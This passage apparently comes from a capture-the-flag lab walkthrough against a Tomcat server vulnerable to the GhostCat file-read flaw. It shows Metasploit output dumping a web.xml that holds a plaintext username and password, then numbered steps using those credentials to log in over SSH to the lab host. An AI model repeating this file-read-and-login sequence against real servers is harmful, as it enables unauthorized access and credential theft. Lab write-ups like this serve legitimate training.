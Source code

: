 ```bash

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

[+] 10.10.6.82:8080 - /home/kali/.msf4/loot/20230624211452_default_10.10.6.82_WEBINFweb.xml_331351.txt
[*] Auxiliary module execution completed
```

##
> Connecting to the Target via SSH
14. `ssh {USER1}@{TARGET IP} -p 22` to connect to the target's system using the credentials we found in the web.xml file 
15. `whoami` to check if we successfully logged in as the user we authenticated as 
```bash
┌──(kali㉿kali)-[~]
└─$ ssh skyfuck@10.10.6.82 -p 22
The authenticity of host '10.10.6.82 (10.10.6.82)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.6.82' (ED25519) to the list of known hosts.
skyfuck@10.10.6.82's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```
```bash
skyfuck@ubuntu:~$ whoami
skyfuck
```
